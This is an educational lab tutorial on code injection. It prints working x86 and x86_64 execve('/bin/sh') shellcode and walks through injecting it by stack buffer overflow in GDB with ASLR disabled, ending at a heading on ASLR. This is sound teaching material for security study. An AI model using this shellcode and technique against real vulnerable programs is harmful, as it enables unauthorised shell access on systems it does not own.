 # Code Injection

Now that we understand what a buffer overflow is, what can we do with it?

## Shellcode Injection

In this lab, we will learn how to call a shellcode from within a program 
using `execve("/bin/sh", "/bin/sh", NULL)`.

You can find the following shellcodes online by searching for x86 (or x86\_64) 
shellcode. If you are on a different architecture, you can find those.

**x86**

```
"\x31\xc0"              // xor    %eax,%eax
"\x50"                  // push   %eax
"\x68\x2f\x2f\x73\x68"  // push   $0x68732f2f
"\x68\x2f\x62\x69\x6e"  // push   $0x6e69622f
"\x89\xe3"              // mov    %esp,%ebx
"\x89\xc1"              // mov    %eax,%ecx
"\x89\xc2"              // mov    %eax,%edx
"\xb0\x0b"              // mov    $0xb,%al
"\xcd\x80"              // int    $0x80
"\x31\xc0"              // xor    %eax,%eax
"\x40"                  // inc    %eax
"\xcd\x80"              // int    $0x80
```

**x86\_64**

```
"\x48\x31\xd2"                                  // xor    %rdx, %rdx
"\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68"      // mov $0x68732f6e69622f2f, %rbx
"\x48\xc1\xeb\x08"                              // shr    $0x8, %rbx
"\x53"                                          // push   %rbx
"\x48\x89\xe7"                                  // mov    %rsp, %rdi
"\x50"                                          // push   %rax
"\x57"                                          // push   %rdi
"\x48\x89\xe6"                                  // mov    %rsp, %rsi
"\xb0\x3b"                                      // mov    $0x3b, %al
"\x0f\x05"                                      // syscall
```

To understand how the above shellcodes work, examine the source code of 
`shellcode.c`. The program is very simple. It creates a char array that is 
loaded with the shellcode, and calls a function located at the address of the 
array. Simple, see?

Maybe that's not very clear if you haven't used function pointers before. The 
key to understand here is that the shellcode is a set of machine instructions 
that can be executed, and it is also a string that can be input. This is a 
result of one of the ideas at the core of computing. Bits are just bits, and 
there is no distinction between instructions and other data. So you can input 
instructions, and if you can direct the instruction pointer to that data the 
machine is perfectly capable of executing it.

You can compile the `shellcode.c` example as a 32-bit program and execute it 
to see the result for yourself by using the compiler flag `-m32`.

### Example Inject

We begin this lab by repeating the steps from the previous buffer overflow 
example. The only difference here is that instead of simple spacing 
characters, we will include the appropriate above shellcode. If you don't 
understand the following instructions, you might want to revisit the previous 
example.

1. Disable ASLR.
2. Compile the program with the same flags as earlier.
3. Open the program with GDB.
4. Dissassemble the vulnerable function to find the actual size of the buffer.
5. Create a breakpoint after filling the buffer, but before returning from 
the function.
6. Run the program with the shellcode as the input. 
    - You may remember that x86 is little-endian, and might be tempted to 
    input the shellcode backwards somehow. That's not neccessary here, you 
    can input the shellcode in the order shown above.
7. GDB will break and wait for input.
8. Examine the stack using `x /32x $sp`. You should see your shellcode input in 
the stack somewhere. Take note of the address where this code is. You will 
need this address.
    - You can index with relative addresses if you want to refine your search 
    by using `x /32x ($sp + 8)` or similar.
9. Run the program again with input consisting of shellcode, spacing 
characters, and the return address.
10. If you did this correctly, you should get a shell.

### ASLR: Address Space Layout Randomization

Now that we can inject a shellcode from within GDB, we have to revisit our 
previous discussion about ASLR.

